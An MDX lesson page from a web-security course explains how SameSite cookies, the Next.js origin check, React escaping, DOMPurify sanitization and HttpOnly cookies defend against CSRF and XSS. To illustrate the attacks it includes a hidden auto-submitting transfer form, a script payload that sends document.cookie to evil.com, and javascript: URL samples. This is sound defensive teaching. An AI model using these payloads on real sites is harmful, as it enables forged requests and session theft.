

import CourseProgressBar from '../../../components/ui/CourseProgressBar.astro';
import Figure from '../../../components/figures/Figure.astro';
import CodeTooltips from '../../../components/code/CodeTooltips.astro';
import Term from '../../../components/ui/Term.astro';
import Buckets from '../../../components/exercises/buckets/Buckets.astro';
import Bucket from '../../../components/exercises/buckets/Bucket.astro';
import Item from '../../../components/exercises/buckets/Item.astro';
import MultipleChoice from '../../../components/exercises/multiple-choice/MultipleChoice.astro';
import McqChoice from '../../../components/exercises/multiple-choice/McqChoice.astro';
import McqWhy from '../../../components/exercises/multiple-choice/McqWhy.astro';
import XssTwoSinks from '../../../components/lessons/054/4/xss-two-sinks.astro';
import DefenseStack from '../../../components/lessons/054/4/defense-stack.astro';
import VideoCallout from '../../../components/embeds/VideoCallout.astro';
import ExternalResource from '../../../components/ui/ExternalResource.astro';
import { CardGrid } from '@astrojs/starlight/components';

<CourseProgressBar value={frontmatter['course-progress']} />

For three lessons you've been building the session: gating the routes that need it, changing the credentials behind it, listing and revoking it across devices. This lesson stops adding and asks the question every SaaS post-mortem eventually arrives at, usually at 3 a.m. with a customer on the phone. Can someone steal or hijack this session?

For the two classic web vulnerabilities, the honest answer is reassuring, because the 2026 stack has already done most of the work. React 19, Next.js 16, and Better Auth, configured the way you set them up when you stood up auth, ship the defenses against these two attacks turned **on by default**. Your job in this lesson is not to build those defenses. It's to understand the ones already running underneath your app, and to learn to spot the single line of code, in your own pull request, that would switch one of them off.

That reframe is the whole lesson. These two vulnerabilities used to be things you implemented protection against: you wrote token machinery, you escaped output by hand. The modern stack turned them into things that are defended by default unless you actively break them. So the experienced engineer's contribution is no longer reciting attack trees. It's recognizing the footgun in a diff before it ships.

Both tracks are taught the same way. CSRF asks whether a malicious site can make requests *as* your signed-in user. XSS asks whether an attacker's input can *run as code* inside your user's page. For each one we'll follow the same three beats: the threat in one concrete story, the default that closes it for free, and the one footgun that reopens it.

A word on scope, so the lesson doesn't feel like it's leaving you short. This is the structural layer: the defenses baked into the cookie, the framework, and the renderer. There is a further layer, the Content Security Policy and the rest of the security headers, and it gets a deliberate later pass. The pre-launch audit project near the end of the course configures all of it. We'll name that layer here, in its place in the stack, and stop there. Naming it is the goal for now; building it is that project's job.

Here's the part that should make the whole lesson click: you already set every defense this lesson is about. Back when you hardened the session cookie and trusted Better Auth's defaults, you turned all of this on; you just didn't fully see why yet. This is the lesson where those choices finally explain themselves.

## CSRF: when the browser fights for the attacker

Start with the attack, before any acronym, and picture it concretely.

An attacker controls a site, call it `evil.com`. On one of its pages they hide a form. Not a form anyone fills in: an invisible one, set to submit itself the instant the page loads, pointed straight at your app:

```html
<form action="https://app.example.com/api/transfer" method="POST">
  <input type="hidden" name="to" value="attacker" />
  <input type="hidden" name="amount" value="5000" />
</form>
```

Now a user who is currently signed into your app, a real customer with a live session, clicks a link to `evil.com`: a phishing email, a sketchy ad, a link in a forum. The page loads, and the hidden form fires a `POST` at `app.example.com/api/transfer`. Here is the part that makes the attack work: the browser, doing exactly what browsers have always done, attaches your app's session cookie to that request. The cookie belongs to `app.example.com` and the request is going to `app.example.com`, so the browser sends it along. Without a defense, your server sees a perfectly authenticated request, the right cookie and a valid session, and runs the transfer. It runs authenticated as the victim, who never clicked a single thing on your domain.

That's <Term definition={"Cross-Site Request Forgery — an attack that tricks a logged-in user's browser into making a request they didn't intend, riding on the session cookie the browser attaches automatically."}>CSRF</Term>, Cross-Site Request Forgery. The insight worth holding onto is that CSRF is the browser's cookie-attaching reflex turned against you. The attacker never sees your user's cookie, and never steals it. They don't need to: they just borrow the browser's automatic habit of sending it. The cookie does the work for them.

That tells you exactly what the defense has to be. You can't fix this by hiding the cookie better, since the attacker can't read it anyway. The fix is to teach the cookie when *not* to ride along. You have to make the browser keep the cookie in its pocket for this one kind of request, the cross-site, background, attacker-initiated kind, while still sending it for legitimate requests. That's the whole game, and the next section is the move that wins it.

<VideoCallout videoId="80S8h5hEwTY" videoTitle="CSRF, demonstrated and fixed (Web Dev Simplified)">
  Web Dev Simplified live-fires the exact attack in this lesson: an auto-submitting form on a different origin, the cookie riding along automatically (10 min). Note that it reaches for a CSRF token as the fix; we get the same protection for free from `SameSite=Lax`, which the next section explains.
</VideoCallout>

## The default: SameSite=Lax drops the cookie

Here is the payoff. Back in [Session lifetimes and cookie hardening](/052-better-auth-setup/3-session-lifetimes-and-cookie-hardening/) you set the session cookie's attributes and moved on: the `__Host-` prefix, `HttpOnly`, `Secure`, and the one that matters right now, <Term definition={"A cookie attribute that controls whether the cookie rides along on cross-site requests. Lax sends it only on top-level navigations to the site; Strict never sends it cross-site; None always sends it."}>`SameSite`</Term>`=Lax`. That single attribute is the entire CSRF defense for the standard shape, and you've had it on the whole time.

Here is what `Lax` does. When the user navigates to your app at the top level, by clicking a link to `app.example.com` or typing it in the address bar, the browser sends the `Lax` cookie. The user stays signed in and the experience is seamless. But on a cross-site subrequest, which is exactly the attacker's background `POST` fired from a form on `evil.com`, the browser withholds it. The forged request still arrives at your app. It just arrives with no session cookie.

Now follow the consequence downstream, because the cookie attribute is the first of several things standing in the way. The request reaches your transfer action carrying no session. The validating read, the `requireUser` call you built in [Reading the session everywhere with one call shape](/052-better-auth-setup/4-reading-the-session-everywhere-with-one-call-shape/), looks up the session, finds nothing, and the action returns 401. The transfer never happens. There's no CSRF token, no hidden form field your forms have to echo back, and no extra code on your side at all. The cookie simply didn't show up to the attack.

The following diagram traces that whole chain: the attacker gets the browser to send the request but fails to get it to send the cookie. Watch the hinge, the moment the browser decides on its own to leave the cookie behind.

<Figure caption="The attacker can make the browser send the request, but cannot make it send the cookie. With no cookie, the validating read sees nobody.">

</Figure>

This is why this course never built a CSRF-token layer. It helps to understand why that machinery existed at all, so you recognize it when you meet it. The classic defenses, synchronizer tokens and double-submit cookies, were invented for a web where cookies rode along on every cross-site request, including the attacker's. In that world you needed a secret value the attacker's site couldn't know and couldn't read, echoed back on every mutation, to tell a real request from a forged one. `SameSite=Lax` removed the premise those tokens were solving for. The cookie no longer rides on the forged request, so there's nothing left for a token to distinguish. The whole layer became unnecessary for the same-origin SaaS shape: the ordinary Next.js form or Server Action posting back to its own origin.

## The footgun: SameSite=None and the Domain attribute

Now the turn. The default is safe and free, so the only way CSRF comes back is if you turn the default off. This is the part you'll actually face: the footgun is never an attack you didn't anticipate. It's a line of code you wrote yourself, for a reason that sounded perfectly sensible at the time.

Here are the three ways a developer breaks it. Notice the plausible reason attached to each, because that's the trap, and you should be able to feel the pull of it.

**One: flipping `SameSite=None`.** Someone needs to embed your app in a cross-site iframe, such as a third-party widget or an embedded checkout on a partner's domain, and they notice the session cookie isn't riding along inside the frame, so the embed shows the user signed out. They search for why, and the top answer says to set `SameSite=None`. It "works": the cookie now rides in the iframe. It also rides on `evil.com`'s background `POST`, and on every other cross-site request to your app. You didn't loosen the cookie for the embed; you loosened it for the entire internet. CSRF is back on every endpoint at once. The real fix was never the attribute, it's architectural: don't drive authenticated mutations from a cross-site frame in the first place.

**Two: adding `Domain=example.com`.** Someone wants a sibling subdomain, `marketing.example.com`, to read the session cookie that lives on `app.example.com`. To make that work they have to drop the `__Host-` prefix, because `__Host-` forbids a `Domain` attribute by design, and then add `Domain=example.com` so the cookie spreads across subdomains. Now every subdomain of `example.com` is inside the cookie's blast radius, including any subdomain an attacker might come to control through a dangling DNS record or a forgotten staging host. The `__Host-` prefix existed precisely to prevent this. Removing it trades a real, structural defense for a convenience that almost always has a cleaner answer.

**Three: building a cross-site browser flow at all**, such as a marketing site that `POST`s into the app or a separate dashboard origin that mutates app data, and then "fixing the cookie" to make it work instead of fixing the flow. The cookie change is downstream of an architecture decision that was the actual mistake.

There's one reflex underneath all three, and it's the one to make automatic: any time `SameSite=Lax` or `__Host-` feels like it's blocking you, the architecture is the problem, not the cookie. A cross-site authenticated mutation is a warning sign. Redesign the flow before you loosen the attribute. Almost every time you reach for `SameSite=None`, the honest fix is one layer up.

:::caution[The moment you type SameSite=None, CSRF protection is off site-wide]
`SameSite=None` doesn't open a hole for one endpoint or one embed. It tells the browser to attach the cookie on *every* cross-site request to your app, which is exactly the behavior `Lax` was protecting you from. If you find yourself reaching for it, stop and fix the flow that made you want it.
:::

:::caution[Dropping __Host- to add Domain= widens the blast radius to every subdomain]
The `__Host-` prefix forbids `Domain` on purpose: it pins the cookie to the exact host that set it. Drop the prefix, add `Domain=example.com`, and you've handed the cookie to every present and future subdomain, including any an attacker takes over. A sibling subdomain that needs the session is an architecture question, not a cookie-attribute one.
:::

## The framework's second line: the Server Actions origin check

There's a second wall behind the first, and it covers the other way your app mutates data. Your forms might `POST` to API routes, but Server Actions are the other mutation path, and Next.js 16 ships a built-in CSRF check on them.

When a Server Action runs, the framework compares the request's `Origin` header against the host it's actually serving, which is the `Host` header, accounting for `X-Forwarded-Host` behind a proxy. If they don't match, the framework rejects the Action. The default is same-origin only. This sits behind `SameSite=Lax` as defense in depth: even if some future browser quirk, some odd embedding context, or a misconfiguration leaked a cross-site `POST` past the cookie attribute, the framework still refuses to run the Action because the origins don't line up.

You can widen this. `serverActions.allowedOrigins` in `next.config.ts` takes an array of origins you're explicitly declaring safe to invoke your mutations. But that's a security-review surface, not a default to reach for, because every entry is a promise. The senior reflex is to never widen it casually, never disable the check, and treat any addition, such as a reverse proxy or a genuine multi-host setup, as a reviewed decision rather than a quick unblock. Hold the durable fact in your head as "the framework checks `Origin` against `Host`", which is the behavior independent of whatever the current patch version calls it.

```ts title="next.config.ts"
const nextConfig = {
  serverActions: {
    allowedOrigins: ['app.example.com'],
  },
};
```

This same pattern, a framework default plus a narrow allowlist you guard, has a parallel inside Better Auth, and the two are worth lining up because the discipline is identical. Back in the cookie-hardening lesson you saw `trustedOrigins`. That's Better Auth's own origin allowlist: the library refuses to set auth cookies on requests from origins outside it, and it defaults to your `baseURL`. When you genuinely have other clients, such as a mobile webview or a browser extension, you add their origins explicitly. Never use `['*']`. Read every addition like a firewall rule. Two allowlists, one in the framework and one in the library, are governed by the same instinct: the default is narrow, and every widening is a decision someone reviewed.

:::note[Two layers, in order]
For a cross-site mutation to succeed against your app, it has to get past *both* walls. The cookie has to attach, and it won't, because `SameSite=Lax` drops it. The origin also has to match, and it won't, because the Server Actions check rejects it. The cookie attribute is the first line; the framework origin check is the second.
:::

## When a CSRF token actually earns its place

Let's close the CSRF track honestly, so you don't walk away thinking tokens are obsolete folklore. They're not. They're just not the default for the same-origin shape, and knowing exactly when they come back is the senior read.

First, recognize the legacy pattern when you meet it in an older codebase. There are two classic CSRF defenses. With the **synchronizer token**, the server plants a secret in the page, the form echoes it back, and the server checks the match. With the **double-submit cookie**, the same secret sits in both a cookie and a request header, and the two are compared on arrival. You'll see these in plenty of pre-2020 code. The 2026 stack doesn't ship them because `SameSite=Lax` plus the Server Actions origin check already close the threat for an app that talks to its own origin. There's nothing left for the token to do.

Here is the one case where the token earns its place again: a genuinely cross-origin auth endpoint, such as a mobile webview hitting `api.example.com` from a different origin by design. Here the request *is* cross-site, because that's the architecture rather than an attack, so the whole assumption behind `SameSite=Lax` breaks. The legitimate request is exactly the shape `Lax` was built to drop. When cross-origin is a real product requirement, you layer protection back, in senior-priority order:

- Keep the highest-stakes endpoints on `SameSite=Strict` so the cookie *never* rides cross-site, even on navigations.
- Require a custom header the attacker's site can't forge. Adding a non-standard header to a cross-origin request triggers a <Term definition={"Cross-Origin Resource Sharing — the browser's mechanism for controlling cross-origin requests. A request carrying a non-standard header triggers a preflight check that the attacker's site can't satisfy without your server's cooperation."}>CORS</Term> preflight, and the attacker's page can't get past a preflight your server doesn't approve.
- Or switch those clients off cookies entirely, onto a Bearer token in the `Authorization` header, which isn't attached automatically and so isn't forgeable cross-site the way a cookie is.

The framing mirrors the footgun section, with the same instinct pointed the other way: solve the architecture first, and layer tokens only when the architecture genuinely demands cross-origin. Tokens are the right answer when cross-origin is a real requirement, never a band-aid for a flow that shouldn't have been cross-origin to begin with. Full CORS configuration belongs where the cross-origin product surface actually appears; here, naming the preflight is enough to see why the custom-header defense works.

## XSS: when attacker input becomes code

Now switch tracks. The second classic vulnerability follows the same three beats, threat, default, and footgun, and again it starts with a story.

Your app renders text a user typed: a comment on a thread, a profile bio, the body of a support ticket. Somewhere, untrusted input flows back onto a page. Now an attacker types not text but this into a comment box:

```html
<script>fetch('https://evil.com/steal?c=' + document.cookie)</script>
```

If your app takes that string and drops it into the page as HTML, the browser does what browsers do with markup: it parses the `<script>` tag and runs the code inside it. Not on the attacker's machine, but in the victim's browser, in your app's origin, under the victim's session. From there the script can read anything JavaScript can read on that page, fire authenticated requests as the user, and exfiltrate data to a server the attacker controls. One poisoned comment, and every user who views the thread runs the attacker's code.

That's <Term definition={"Cross-Site Scripting — attacker-controlled input gets parsed and executed as script inside another user's page, running in your app's origin under that user's session."}>XSS</Term>, Cross-Site Scripting. The structural insight, the one sentence everything in this track is a variation on, is that XSS is attacker input getting parsed as HTML or JavaScript instead of shown as text. That tells you the defense at once. You don't have to detect malicious strings or blocklist dangerous patterns, which is a hopeless task. You just have to make sure untrusted input always renders as *text*, never as *markup*. Show the characters; never parse the tag.

One detail in that payload is worth flagging for later. The script reached for `document.cookie`, trying to steal the session, and for the session cookie it came up empty. That cookie is `HttpOnly`, set by Better Auth, which means JavaScript can't read it at all and `document.cookie` simply doesn't include it. Hold onto that, because it's the seam between this track and a temptation we'll meet near the end: the session cookie is out of the attacker's reach by default, which is exactly why putting an auth token somewhere JavaScript *can* read it is so dangerous.

<VideoCallout videoId="z4LhLJnmoZ0" videoTitle="Cross-Site Scripting explained (IBM Technology)">
  IBM's Jeff Crume walks the full anatomy of an XSS attack, from an injected comment to script running under the trusted site's origin to a session hijack, and the two defenses to remember: don't trust user input, and encode output (9 min).
</VideoCallout>

## The default: React escapes every value

Here's the XSS payoff, and it's even more automatic than the CSRF one, because there isn't even an attribute to set.

Every `{value}` you interpolate in JSX is escaped by React, so a string renders as text and nothing more. When React writes a value into the DOM, it converts the HTML-significant characters, `<`, `>`, `&`, and `"`, into their harmless entity equivalents. So the attacker's comment doesn't become a `<script>` tag in your page. It lands in the DOM as the literal, inert text `&lt;script&gt;...&lt;/script&gt;`, which the browser *displays* as the characters `<script>...` and never *parses* as a tag. The script can't run because, as far as the browser is concerned, there is no script, just text that happens to look like one.

You get this for free on every value your app writes. There is no "enable escaping" step, because escaping is never off:

```tsx
<div>{comment}</div>
```

If `comment` holds `<script>alert(1)</script>`, that `<div>` shows the visible, harmless text `<script>alert(1)</script>` and nothing executes. That single behavior, escaping by default, is the entire XSS defense for the overwhelming majority of rendering you will ever write. Every value is escaped, automatically.

There's one corner where auto-escaping doesn't fully cover you, and it's worth flagging here rather than overstating React's guarantee. A `javascript:` URL in an attribute is dangerous in its own right: `<a href="javascript:alert(1)">` runs script on click, with no `<script>` tag needed. React does help here, since it has historically warned in development about `javascript:` URLs in JSX-rendered attributes and signaled it may block them outright. But the safe stance is not to lean on version-specific behavior you can't see. When a URL comes from a user, validate the scheme yourself rather than trusting the renderer to catch it. So `<a href={url}>` with an attacker-supplied `javascript:` URL is the one place escaping alone won't save you, and it's the seam into the corners React leaves to you, a couple of sections from now.

The next figure makes the core lesson visible: the danger isn't the input, it's the *sink*, the prop that receives it. The exact same malicious string is harmless or catastrophic depending only on where you put it.

<Figure caption="The same string, two sinks. The input never changed, only the prop that received it. The danger lives in the sink.">
  <XssTwoSinks />
</Figure>

## The footgun: dangerouslySetInnerHTML

You just saw the dangerous sink in the diagram. Here it is in code, and notice that React put the warning right in the name:

```tsx
<div dangerouslySetInnerHTML={{ __html: userInput }} />
```

This one prop bypasses the auto-escape entirely. It takes the string you hand it and injects it into the DOM as raw HTML, with tags parsed and scripts run, exactly the right-hand panel of that figure. Any path that lets attacker-controllable input reach this prop is an XSS hole. The name isn't decoration; it's the API telling you to stop and think.

So when *do* you reach for it? Rarely, and only with a load-bearing reason. Rendering rich text from an editor, or sanitized HTML from a CMS, is about the only common legitimate one. And when you do, there's a short discipline that turns this from a hole into a controlled door. Apply these in order:

- **Sanitize the input first.** Run it through a sanitizer that strips anything executable before it ever reaches the prop. `DOMPurify` is the 2026 standard.
- **Sanitize on the server, not in the browser.** This is what React Server Components let you do: render the already-clean HTML on the server so the un-sanitized string never reaches the client at all. Sanitizing in a client component means you already shipped the dangerous string to the browser before cleaning it, which is a real and common mistake.
- **Allowlist, never blocklist.** Name the exact tags and attributes you permit and drop everything else. You will never finish enumerating every dangerous tag and attribute, and the attacker only needs the one you forgot. Start from "nothing is allowed" and add back the few things you need.
- **Sanitize even "trusted" sources.** Sanitize your own CMS and your own admins anyway. The experienced engineer assumes every input is reachable by some path eventually, and a sanitizer that runs on trusted input costs nothing when the trust turns out to be misplaced.

Here is that shape, the one real code example in this lesson, so make it count. It's `DOMPurify`, server-side, configured as an allowlist:

<CodeTooltips tooltips={{
  ALLOWED_TAGS: 'Allowlist of HTML tags that survive sanitization. Everything not listed is stripped.',
  ALLOWED_ATTR: 'Allowlist of attributes that survive. Here, only href — no onclick, no style, no event handlers.',
  ALLOWED_URI_REGEXP: 'Restricts which URL schemes are allowed in attributes — here, http and https only, so javascript: links cannot slip through.',
}}>
```ts
import DOMPurify from 'isomorphic-dompurify';

const clean = DOMPurify.sanitize(richText, {
  ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'a', 'ul', 'ol', 'li', 'h1', 'h2', 'h3'],
  ALLOWED_ATTR: ['href'],
  ALLOWED_URI_REGEXP: /^https?:\/\//i,
});
// must run on the server — the client never sees the un-sanitized richText
```
</CodeTooltips>

The package is `isomorphic-dompurify`, and the reason matters: plain `dompurify` needs a real DOM to do its work, which Node doesn't have, so it can't run on the server by itself. The isomorphic build wraps a DOM implementation so the same sanitize call runs in a Server Component. That's what lets you clean the HTML before it's ever sent.

Read that config the way you'd read a firewall rule, because that's what it is. `ALLOWED_TAGS` is the list of tags that survive: paragraphs, emphasis, lists, links, and headings, the vocabulary of formatted text and nothing more. `ALLOWED_ATTR` permits only `href`, so no `onclick`, no inline `style`, and no event handlers get through. `ALLOWED_URI_REGEXP` pins links to `http` and `https`, so a `javascript:` URL can't ride in on an `<a>` tag. The sanitizer config is part of your security posture. When it changes in a PR, it gets reviewed like any other security-sensitive change, because loosening it is exactly as consequential as loosening a cookie attribute.

:::caution[Sanitizing in a client component already shipped the raw HTML]
If the sanitize call runs in a `'use client'` component, the un-sanitized string was sent to the browser first and cleaned second, so the dangerous payload already crossed the wire. Sanitize on the server so the client only ever receives HTML that's already safe.
:::

## The vectors React doesn't close for you

Auto-escaping covers the overwhelming majority of rendering, but a few corners sit outside it. This is a short list of places to stay alert, not a deep dive. The goal is that you recognize the category on a PR, not that you memorize every variant.

**`href` and `src` with untrusted URLs.** This is the seam the React `href` nuance pointed at. When a URL comes from a user, validate the scheme before you render it: allow `https:`, `mailto:`, and relative paths, and reject `javascript:` and the like. `<a href={userUrl}>` with no scheme check is a live footgun, and it's the kind that sails through every happy-path test and surfaces only when someone pastes a `javascript:` URL into their profile.

**`target="_blank"` and `rel="noopener noreferrer"`.** When you open a link in a new tab, the opened page used to be able to reach back and hijack the original tab through `window.opener`. Modern browsers now imply `rel="noopener"` automatically for `target="_blank"`, which is a browser behavior rather than something React adds, so the opener hijack is mostly closed for you. The piece still worth adding by hand is `noreferrer`, which keeps the originating URL out of the `Referer` header you'd otherwise leak to the opened page. The senior default is to write `rel="noopener noreferrer"` explicitly anyway: it backs up the opener protection, adds the referrer-privacy benefit, and documents the intent for the next reader.

**`eval`, `new Function`, and `setTimeout` with a string argument.** Never feed user input to any of them, because each turns a string into executing code, which is the entire XSS premise handed over voluntarily. ESLint flags these, so all you need is to know the category exists and recognize it when a rule fires.

One thing you don't have to worry about is the `style` attribute as an injection vector. The old `background:url(javascript:...)` trick only reaches the page through raw HTML, that is, through `dangerouslySetInnerHTML`, which you've already locked down with sanitization. The object form, `style={{ color: 'red' }}`, is safe, because React doesn't let a string style smuggle a URL in.

Now test the recognition skill this whole lesson is really about: sorting the safe defaults from the lines that punch a hole. Drag each item into the bucket it belongs in.

<Buckets twoCol instructions="Each line is something you might find in a pull request. Sort each one by whether it leans on a default the stack already ships, or punches a hole through it.">
  <Bucket name="safe" label="Safe by default" description="Leans on a defense the stack already ships" />
  <Bucket name="footgun" label="Footgun — opens a hole" description="One line that switches a defense off" />

  <Item bucket="safe">`<div>{userComment}</div>`</Item>
  <Item bucket="footgun">`<div dangerouslySetInnerHTML={{ __html: userComment }} />`</Item>
  <Item bucket="safe">Session cookie with `SameSite=Lax`</Item>
  <Item bucket="footgun">Session cookie flipped to `SameSite=None`</Item>
  <Item bucket="safe">`<a href={validatedHttpsUrl}>`</Item>
  <Item bucket="footgun">`<a href={rawUserUrl}>` with no scheme check</Item>
  <Item bucket="safe">`__Host-` prefixed session cookie</Item>
  <Item bucket="footgun">Session cookie with `Domain=example.com` added</Item>
  <Item bucket="footgun">Auth token kept in `localStorage`</Item>
  <Item bucket="safe">Session in an `HttpOnly` cookie</Item>
</Buckets>

## HttpOnly and the localStorage line

This pays off the thread left dangling in the XSS story, the part where the attacker's script reached for `document.cookie` and came up empty.

`HttpOnly`, set by Better Auth on the session cookie, means one thing precisely: JavaScript cannot read the cookie. It's sent on requests and the server reads it, but `document.cookie` doesn't include it and no script can get at its value. So even a successful XSS, with attacker code genuinely running in the victim's page, can't exfiltrate the session cookie directly. That's why the `fetch('...' + document.cookie)` payload failed for the session: the one thing it most wanted to steal was the one thing the browser wouldn't hand to script.

That's the structural protection. Here's the trade, and it's the rule this section exists to deliver. The moment a team puts an auth credential in `localStorage` "for convenience", as a token they can read from JavaScript to attach to API calls, they've put it somewhere every script on the page can read. Now a single XSS doesn't just run code; it reads the token and walks off with the user's identity. `HttpOnly` had quietly closed that door, and `localStorage` props it back open.

So the rule, stated the way you'd state it in a review, is that session cookies stay `HttpOnly` and auth tokens never go in `localStorage`. If an architecture genuinely needs a JavaScript-readable token, for some specific client that can't use cookies, then name the threat out loud and pick the least-bad layer: in memory only, short-lived, paired with a refresh flow. Never `localStorage` as a default, and never because it was the easy place to put it.

:::danger[An auth token in localStorage is readable by every script on the page]
One XSS and the token is gone, and unlike the `HttpOnly` session cookie, nothing stops the script from reading it. `HttpOnly` cookies are the default for exactly this reason. "Convenience" is not a threat model.
:::

## The next layer: Content Security Policy

Escaping and sanitization close the XSS threat for the rendering you write. But experienced engineers assume their own defenses have gaps, such as a sanitizer with a hole or a sink someone forgot, and put a wall behind the wall. That wall is the <Term definition={"Content Security Policy — an HTTP response header that tells the browser which sources of script, style, and other resources are allowed to load and run, so an injected script is refused even if it reaches the DOM."}>Content Security Policy</Term>.

A CSP is an HTTP response header that tells the browser what it's allowed to execute. A policy that forbids inline scripts and only permits scripts from your own origin means an injected `<script>` won't run even if it slips into the DOM, because the browser refuses to execute it when the policy didn't sanction it. That's the third layer, sitting behind escaping and sanitization, and for a production SaaS handling sensitive data it's not optional. It's the defense that catches the case your sanitizer missed.

And here is where this lesson stops, deliberately. Configuring a CSP is real work: nonces, hashes, `strict-dynamic`, and a report-only rollout so you don't break your own scripts on day one. That work belongs to the pre-launch audit project near the end of the course, where the app ships the real header set and a nonce-based policy. This lesson names the layer and its position in the stack; that project builds it. What you need here is to know where CSP sits, as the roof over the escaping-and-sanitization layers. The configuration is a whole pass of its own.

The rest of the security-header surface lives in that same later project, shipped together through the `headers()` function in `next.config.ts`: `Strict-Transport-Security`, `X-Content-Type-Options: nosniff`, `Referrer-Policy`, `Permissions-Policy`, and the `Cross-Origin-*` set. One senior summary each is enough for now: `nosniff` always on, HSTS preloaded in production, and a `Referrer-Policy` that doesn't leak your paths to third parties. The full set is that project's deliverable, not this lesson's.

:::note[Where CSP and the header set get built]
This lesson names CSP and the security headers and places them in the stack. The pre-launch audit project later in the course is where you configure them: the nonce-based policy, the report-only rollout, and the full `headers()` set. Named here, built there.
:::

## The mental model: layers, defaults, and the lines that punch through

Step back and hold the whole thing in one picture, because that's the takeaway you carry out of this lesson.

Both tracks have the same shape: a stack of layers, each one safe by default, and for each layer exactly one footgun, a specific line of code, that disables that one layer. The skill isn't memorizing attacks. It's being able to point at a footgun in a diff and name which layer it just turned off.

The closing figure lays both stacks side by side. Read each column top to bottom: every layer is a green default that's already on, and beside it, in red, the one line that would punch through it.

<Figure caption="Every layer is safe by default. Each footgun is one specific line that disables one specific layer.">
  <DefenseStack />
</Figure>

That figure is the thesis of the lesson. The 2026 stack ships these defenses on, by default. You didn't have to build them; you only had to not break them. That's the real deliverable here: not a defense you implement, but a reflex you carry into every review. It's the ability to spot, among a hundred lines of a pull request, the one that turns a layer off, and the instinct to fix the architecture that made someone want to, rather than loosen the default to let it through. Any time the default feels like it's in your way, the architecture is the problem, not the default.

One quick recall check to seal the central reflex.

<MultipleChoice>
  A teammate changes one line of the session cookie's configuration to unblock an embed. Which change hands a forged request from *any* origin a fully authenticated session — re-opening CSRF across every endpoint at once?

  <McqChoice correct>Telling the browser to attach the cookie on cross-site requests, not just top-level navigations to your own site.</McqChoice>
  <McqChoice>Keeping the cookie pinned to the exact host that set it, with no `Domain` attribute.</McqChoice>
  <McqChoice>Marking the cookie so JavaScript on the page can't read its value.</McqChoice>
  <McqChoice>Refusing to run a Server Action whose `Origin` header doesn't match the host serving it.</McqChoice>

  <McqWhy>That change is `SameSite=None`. `Lax` withholds the cookie on cross-site subrequests — the attacker's background `POST` arrives with no session, so the validating read sees nobody. Flip it to `None` and the browser attaches the cookie on *every* cross-site request, so a forged request from any origin now arrives authenticated, everywhere at once. The other three are defenses, not holes: a host-pinned cookie with no `Domain` is the `__Host-` guarantee, an unreadable cookie is `HttpOnly`, and the `Origin`-vs-`Host` rejection is the Server Actions check. The embed that tempted the change is an architecture problem, not a cookie-attribute one.</McqWhy>
</MultipleChoice>

That recognition, the footgun in the diff and the architecture fix behind it, is what this lesson set out to give you. The defenses were already running before you arrived. Now you can see them, and you can see the lines that would switch them off.

## External resources

<CardGrid>
  <ExternalResource
    title="MDN — Set-Cookie & the SameSite attribute"
    href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie#samesitesamesite-value"
    icon="simple-icons:mdnwebdocs"
    iconColor="#000000"
    description="The durable reference for the cookie attribute that is the CSRF default: Lax vs Strict vs None and exactly when each one rides."
  />
  <ExternalResource
    title="web.dev — SameSite cookies explained"
    href="https://web.dev/articles/samesite-cookies-explained"
    icon="simple-icons:googlechrome"
    iconColor="#4285F4"
    description="Google Chrome's deep-dive on SameSite and how Lax closes CSRF, the most readable walkthrough of why the default works."
  />
  <ExternalResource
    title="Next.js — How to Think About Security"
    href="https://nextjs.org/blog/security-nextjs-server-components-actions"
    icon="simple-icons:nextdotjs"
    iconColor="#000000"
    description="The framework's own security guide, including the Server Actions Origin-vs-Host CSRF check this lesson names."
  />
  <ExternalResource
    title="OWASP — XSS Prevention Cheat Sheet"
    href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html"
    icon="simple-icons:owasp"
    iconColor="#000000"
    description="The canonical industry reference for output-encoding and sink-by-sink XSS rules. A reference to consult, not a survey to read end to end."
  />
</CardGrid>
